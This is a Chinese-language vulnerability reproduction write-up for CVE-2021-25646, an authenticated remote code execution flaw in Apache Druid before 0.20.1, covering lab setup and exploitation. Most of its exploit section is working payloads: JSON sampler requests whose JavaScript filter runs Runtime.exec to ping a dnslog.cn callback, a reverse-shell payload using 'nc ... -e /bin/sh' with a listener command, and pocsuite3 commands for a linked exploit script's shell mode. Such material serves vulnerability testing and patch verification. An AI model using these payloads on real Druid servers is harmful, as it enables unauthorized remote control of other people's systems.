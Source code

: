 # CVE-2021-25646 Apache Druid 远程代码执行漏洞

##  0x00 漏洞描述

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。Apache Druid包括执行用户提供的JavaScript的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在Druid 0.20.0及更低版本中，经过身份验证的用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码。

## 0x01 影响版本

Apache Druid < 0.20.1

## 0x02 修复建议

1、建议升级至最新版本

## 0x03 环境搭建

1、下载地址：

`https://archive.apache.org/dist/druid/0.20.0/apache-druid-0.20.0-bin.tar.gz`

2、解压并启动服务：

`cd apache-druid-0.20.0/`

`./bin/start-micro-quickstart`

jdk需要使用1.8，非1.8版本的，会提示：

![](images/1.png)

按提示执行`export DRUID_SKIP_JAVA_CHECK=1`或安装jdk1.8，再尝试启动服务`./bin/start-micro-quickstart`

![](images/3.png)

3、启动成功后，服务绑定8888端口

![](images/2.png)

点击 Load data -> Local disk -> Connect data

Base directory: quickstart/tutorial/  

File filter: wikiticker-2015-09-12-sampled.json.gz

![](images/4.png)

点击apply，一直按next到filter

![](images/5.png)

抓取修改新增filter的请求报文，报文头为：

`POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 192.168.52.128:8888
Content-Length: 1003
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.52.128:8888
Referer: http://192.168.52.128:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close`

## 0x04 漏洞利用

### 漏洞复现

1、浏览器打开http://www.dnslog.cn/，点击“Get SubDomain”按钮，获取subdomain填入以下payload中。

借助dnslog.cn回显，修改抓取的filter页面请求body为：

`{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('ping subdomain.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}`

2、重放请求，在http://www.dnslog.cn/页面点击“Refresh  Record”按钮：

![](images/6.png)

### 反弹shell

1、在本地cmd或powershell设置nc监听

`nc -lvp PORT`

payload中的IP为本地网卡IP，PORT为nc监听的端口：

`{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec(' nc yourlistenIP yourlistenPORT -e /bin/sh')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}`

2、重放请求，本地nc监听获取服务器控制：

![](images/7.png)

## 0x05 利用脚本

pocsuite3脚本exp：

`https://github.com/A11an10/poc/blob/main/CVE-2021-25646-poc/apache_druid_cve202125646_poc.py`

### verify模式：

`pocsuite -r .\apache_druid_cve202125646_poc.py -u http://IP:PORT --verify`

![](images/8.png)

### shell模式：

`pocsuite -r .\apache_druid_cve202125646_poc.py -u http://IP:PORT --shell`

![](images/9.png)

